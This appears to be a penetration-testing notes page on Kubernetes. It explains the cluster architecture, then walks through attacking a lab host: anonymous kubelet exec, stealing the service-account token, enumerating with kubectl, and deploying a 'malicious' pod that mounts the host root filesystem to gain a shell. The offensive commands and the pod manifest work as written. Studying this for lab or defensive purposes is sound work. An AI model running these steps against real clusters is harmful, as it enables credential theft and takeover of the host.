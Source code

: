 ```yaml
---
icon: dharmachakra
description: Container Orchestration Platform
---
```


# Kubernetes

{% hint style="info" %}
### <mark style="color:purple;">Architecture</mark>&#x20;

### <mark style="color:purple;">**Kubernetes Control Plane**</mark>

<mark style="color:purple;">The brain of the Kubernetes cluster. It makes global decisions about the cluster and monitors the state of the cluster.</mark>

* <mark style="color:orange;">**`kube-apiserver`**</mark>
  * <mark style="color:purple;">Is the central point of communication for all Kubernetes components.</mark>
  * <mark style="color:purple;">It exposes the</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**Kubernetes API**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">and serves as the front-end for the Kubernetes control plane.</mark>
  * <mark style="color:purple;">All interaction go through the API server.</mark>
  * <mark style="color:purple;">It handles requests for cluster state and writes/read operations to/from</mark> <mark style="color:orange;">**`etcd`**</mark><mark style="color:purple;">.</mark>
  * <mark style="color:purple;">Handles</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**authentication, authorization, and admission control**</mark><mark style="color:purple;">.</mark>
* <mark style="color:orange;">**`etcd`**</mark>
  * <mark style="color:purple;">**I**</mark><mark style="color:purple;">s a distributed key-value store used to store all cluster data and state:</mark>
    * <mark style="color:purple;">Configuration of all resources.</mark>
    * <mark style="color:purple;">The</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**desired state**</mark><mark style="color:purple;">.</mark>
    * <mark style="color:purple;">The</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**current state**</mark><mark style="color:purple;">.</mark>
  * <mark style="color:orange;">**`etcd`**</mark> <mark style="color:purple;">ensures that the state is replicated across multiple nodes.</mark>
* <mark style="color:orange;">**`kube-controller-manager`**</mark>
  * <mark style="color:purple;">Is a daemon that runs in the control plane and manages the controllers that regulate the state of the cluster.</mark>
  * <mark style="color:orange;">**`Controllers`**</mark> <mark style="color:purple;">are responsible for ensuring the desired state of the cluster matches the current state. If there’s a mismatch, controllers take action to reconcile that state:</mark>
    * <mark style="color:purple;">For example, if a pod crashes, the</mark> <mark style="color:orange;">**`replication controller`**</mark> <mark style="color:purple;">will create a new pod to maintain the desired number of replicas.</mark>
  * <mark style="color:purple;">Some key controllers include:</mark>
    * <mark style="color:orange;">**`Deployment controller`**</mark><mark style="color:purple;">: Ensures the desired number of pod replicas are running.</mark>
    * <mark style="color:orange;">**`Node controller`**</mark><mark style="color:purple;">: Monitors nodes for health and takes actions when nodes fail.</mark>
    * <mark style="color:orange;">**`Job controller`**</mark><mark style="color:purple;">: Manages the execution of batch jobs.</mark>
* <mark style="color:orange;">**`kube-scheduler`**</mark>
  * <mark style="color:purple;">Is responsible for scheduling pods to run on the worker nodes.</mark>
  * <mark style="color:purple;">It watches for newly created pods that do not have a node assigned, and then selects the most appropriate node to run the pod based on resource requirements, node availability, and other constraints.</mark>
* <mark style="color:orange;">**`cloud-controller-manager`**</mark>
  * <mark style="color:purple;">Interacts with the cloud provider’s API to manage resources such as:</mark>
    * <mark style="color:purple;">Managing load balancers.</mark>
    * <mark style="color:purple;">Handling cloud-specific features.</mark>
  * <mark style="color:purple;">It abstracts the cloud provider-specific logic, allowing Kubernetes to be agnostic to the underlying infrastructure.</mark>

### <mark style="color:purple;">**Kubernetes Worker Node**</mark>

<mark style="color:purple;">Worker nodes are the machines (either virtual or physical) that run the actual application workloads. A Kubernetes cluster can have multiple worker nodes, and each one runs several essential components:</mark>

* <mark style="color:orange;">**`Kubelet`**</mark>
  * <mark style="color:purple;">Is an agent that runs on every worker node.</mark>
  * <mark style="color:purple;">It ensures that the containers described in the pod specs are running and healthy.</mark>
  * <mark style="color:purple;">Monitors the state of the node and the pods running on it. It communicates with the API server to report the status of the node and its workloads.</mark>
  * <mark style="color:purple;">If a pod is not running as expected, the</mark> <mark style="color:orange;">**`kubelet`**</mark> <mark style="color:purple;">can restart it.</mark>
* <mark style="color:orange;">**`Kube Proxy`**</mark>
  * <mark style="color:purple;">**I**</mark><mark style="color:purple;">s a network proxy that runs on every worker node.</mark>
  * <mark style="color:purple;">It maintains network rules for pod communication, allowing services in the cluster to be accessed reliably.</mark>
  * <mark style="color:purple;">It manages the</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**service abstraction**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">by routing traffic to the correct pods. If a service points to multiple pods,</mark> <mark style="color:orange;">**`kube-proxy`**</mark> <mark style="color:purple;">ensures the traffic is balanced between the pods using round-robin or other strategies.</mark>
* <mark style="color:orange;">**`Container Runtime`**</mark>
  * <mark style="color:purple;">Responsible for running the containers on each node. It interacts directly with the underlying infrastructure (e.g., Docker, containerd, CRI-O).</mark>
  * <mark style="color:purple;">When the</mark> <mark style="color:orange;">**`kubelet`**</mark> <mark style="color:purple;">schedules a pod, the container runtime is used to pull the container images and start the containers.</mark>
* <mark style="color:orange;">**`Pods`**</mark>
  * <mark style="color:purple;">The smallest and most basic deployable objects in Kubernetes. A pod represents one or more containers running together on the same node.</mark>
  * <mark style="color:purple;">Pods share the same network namespace, which means they can communicate with each other using</mark> <mark style="color:orange;">**`localhost`**</mark> <mark style="color:purple;">and share storage volumes.</mark>
  * <mark style="color:purple;">Typically, a pod is used to run a single container, but it can also contain multiple containers that work closely together (e.g., a main app container and a helper container like a logging agent).</mark>

***

### <mark style="color:purple;">Ports and Protocols</mark>

* <mark style="color:purple;">Read the documentation for</mark> [<mark style="color:orange;">**`Ports and Protocols`**</mark>](https://kubernetes.io/docs/reference/networking/ports-and-protocols/)
* <mark style="color:orange;">**`Port 8443`**</mark> <mark style="color:purple;">is the default starting port for the</mark> [<mark style="color:orange;">**`API server in minikube`**</mark>](https://minikube.sigs.k8s.io/docs/commands/start/)
* <mark style="color:purple;">The</mark> <mark style="color:orange;">**`kubelet`**</mark> <mark style="color:purple;">agent listens on</mark> <mark style="color:orange;">**`Port 10250`**</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Enumeration</mark>

* <mark style="color:purple;">Use</mark> [<mark style="color:orange;">**`Kubeletctl`**</mark>](https://github.com/cyberark/kubeletctl) <mark style="color:purple;">to list</mark> <mark style="color:orange;">**`Pods`**</mark><mark style="color:purple;">**:**</mark>

```sh
kubeletctl pods -s 10.10.11.133
```

* <mark style="color:purple;">The</mark> <mark style="color:orange;">**`runningpods`**</mark> <mark style="color:purple;">command gives a bunch of JSON about the running pods:</mark>

{% code overflow="wrap" %}
```sh
kubeletctl runningpods -s 10.10.11.133 | jq -c '.items[].metadata | [.name, .namespace]'
```
{% endcode %}

* <mark style="color:orange;">**`Kubelet`**</mark> <mark style="color:purple;">can allow anonymous access, where one may use the commands such as</mark> <mark style="color:orange;">**`run`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`exec`**</mark><mark style="color:purple;">:</mark>

```bash
kubeletctl -s 10.10.11.133 exec "/bin/bash" -p nginx -c nginx
```

* &#x20;<mark style="color:purple;">Default directories where</mark> <mark style="color:orange;">**`token`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`certificate`**</mark> <mark style="color:purple;">are stored:</mark>
  * <mark style="color:red;">**`/var/run/secrets/kubernetes.io/serviceaccount`**</mark>
  * <mark style="color:red;">**`/run/secrets/kubernetes.io/serviceaccount`**</mark>
  * <mark style="color:red;">**`/secrets/kubernetes.io/serviceaccout`**</mark>

### <mark style="color:orange;">`kubectl`</mark>

* <mark style="color:purple;">Authorize using the</mark> <mark style="color:orange;">**`token`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`ca.crt`**</mark> <mark style="color:purple;">to be able to use it; first save the</mark> <mark style="color:orange;">**`token`**</mark> <mark style="color:purple;">in a local variable to make it easier to work with:</mark>&#x20;

{% code overflow="wrap" %}
```sh
export token=$(kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx)
```
{% endcode %}

* <mark style="color:purple;">Copy the</mark> <mark style="color:orange;">**`ca.crt`**</mark> <mark style="color:purple;">in a file locally and start enumerating:</mark>

{% code title="Print info about the running pod" overflow="wrap" %}
```sh
kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token get pod
```
{% endcode %}

{% code title="List namespaces" overflow="wrap" %}
```sh
kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token get namespaces
```
{% endcode %}

{% code title="List resource services" overflow="wrap" %}
```sh
kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token cluster-info
```
{% endcode %}

{% code title="List all permissions" overflow="wrap" %}
```sh
kubectl auth can-i --list --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
```
{% endcode %}
{% endhint %}

***

{% hint style="danger" %}
### <mark style="color:purple;">Exploitation</mark>

### <mark style="color:purple;">**Create a malicious**</mark>**&#x20;**<mark style="color:orange;">**`Pod`**</mark>

* <mark style="color:purple;">Grab the details of the vulnerable container:</mark>

{% code overflow="wrap" %}
```sh
kubectl get pod nginx -o yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token                   
```
{% endcode %}

* <mark style="color:purple;">The key parameters needed from the file are the</mark> <mark style="color:orange;">**`namespace`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`image`**</mark><mark style="color:purple;">,</mark> <mark style="color:purple;">add those to this template:</mark>

{% code overflow="wrap" %}
```yaml
apiVersion: v1 
kind: Pod
metadata:
  name: tokyo-pod
  namespace: CHANGE ME
spec:
  containers:
  - name: tokyo-pod
    image: CHANGE ME
    volumeMounts: 
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:  
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```
{% endcode %}

* <mark style="color:purple;">Now start the</mark> <mark style="color:orange;">**`pod`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```sh
kubectl apply -f evil-pod.yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
```
{% endcode %}

* <mark style="color:purple;">And get a reverse shell back:</mark>

{% code overflow="wrap" %}
```sh
kubeletctl -s 10.10.11.133 exec "/bin/bash" -p tokyo-pod -c tokyo-pod
```
{% endcode %}
{% endhint %}
